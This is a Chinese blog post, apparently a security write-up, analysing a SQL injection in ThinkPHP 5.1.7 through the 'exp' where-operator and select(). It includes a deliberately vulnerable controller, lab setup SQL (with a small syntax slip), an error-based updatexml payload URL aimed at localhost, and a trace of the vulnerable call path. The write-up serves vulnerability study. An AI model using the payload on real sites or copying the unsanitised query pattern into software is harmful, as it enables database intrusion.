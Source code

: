 # 原创
：  ThinkPHP5 SQL注入（select方法）

# ThinkPHP5 SQL注入（select方法）

#### ThinkPHP5 SQL注入（select方法）

## 漏洞概要

> 



## 初始配置

> 



```
composer create-project --prefer-dist topthink/think=5.1  tpH3rmesk1t

```

> 
将 composer.json 文件的 require 字段设置成如下


```
"require": {
    "php": "&gt;=5.6.0",
    "topthink/framework": "5.1.7"
}

```

> 
然后执行 `composer update`


> 



```
&lt;?php
namespace app\index\controller;

class Index
{
    public function index()
    {
        $username = request()-&gt;get('username');
        $result = db('users')-&gt;where('username','exp',$username)-&gt;select();
        var_dump($result);
        return '&lt;style type="text/css"&gt;*{ padding: 0; margin: 0; } div{ padding: 4px 48px;} a{color:#2E5CD5;cursor: pointer;text-decoration: none} a:hover{text-decoration:underline; } body{ background: #fff; font-family: "Century Gothic","Microsoft yahei"; color: #333;font-size:18px;} h1{ font-size: 100px; font-weight: normal; margin-bottom: 12px; } p{ line-height: 1.6em; font-size: 42px }&lt;/style&gt;&lt;div style="padding: 24px 48px;"&gt; &lt;h1&gt;:)Gyan师傅永远嘀神！！！&lt;/h1&gt;&lt;p&gt; ThinkPHP V5.1&lt;br/&gt;&lt;span style="font-size:30px"&gt;12载初心不改（2006-2018） - 你值得信赖的PHP框架&lt;/span&gt;&lt;/p&gt;&lt;/div&gt;&lt;script type="text/javascript" src="https://tajs.qq.com/stats?sId=64890268" charset="UTF-8"&gt;&lt;/script&gt;&lt;script type="text/javascript" src="https://e.topthink.com/Public/static/client.js"&gt;&lt;/script&gt;&lt;think id="eab4b9f840753f8e7"&gt;&lt;/think&gt;';
    }
}
?&gt;

```

> 
在`config/database.php`文件中配置数据库相关信息，并开启`config/app.php`中的app_debug和app_trace,创建数据库信息如下


```
create database thinkphp;
use thinkphp;
create table users(
	id int primary key auto_increment,
	username varchar(50) not null,
);
insert into users(id,username) values(1,'H3rmesk1t');

```

## 漏洞利用

> 
Payload：


```
http://127.0.0.1/cms/public/index.php/?username=)%20union%20select%20updatexml(1,concat(0x7,user(),0x7e),1)%23

```

## 漏洞分析

> 
程序默认调用 Request 类的 get 方法中会调用该类的 input 方法，然后进到`thinkphp/helper.php`中的`db`方法，再进到`thinkphp/library/think/db/Query.php`中`where`方法，通过其 `parseWhereExp` 方法分析查询表达式，调用`select`方法


> 
再调用`thinkphp/library/think/db/Connection.php`中的`select`方法


> 
此处调用`$this-&gt;builder`的`select`方法，而此处`$this-&gt;builder` 为`think/db/builder/Mysql`类，继承于`Builder`类，因此调用的是`Builder`类的`select`方法


> 
在 `select` 方法中，程序会对 SQL 语句模板用变量填充，其中用来填充 `%WHERE%` 的变量中存在用户输入的数据，跟进这个 `where` 分析函数，会发现其会调用生成查询条件 SQL 语句的 `buildWhere` 函数，此处 `$where` 经过 `buildWhere` 方法处理后返回 `$whereStr`，期间调用 `parseWhereItem` 方法


<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/103daa8714a34c55bdd3b42b2947ce6a.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/1e0f552362d64f0385aa32942440b4e6.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/>

> 
`parseWhereItem` 的 where 子单元函数方法调用，当操作符为 `EXP` 时，调用 `parseExp` 方法，经过拼接带入SQL查询，造成SQL注入


> 
完整的方法调用，从下往上


## 漏洞修复

> 
该漏洞未被官方修复


## 攻击总结

> 
参考Mochazz师傅的审计流程

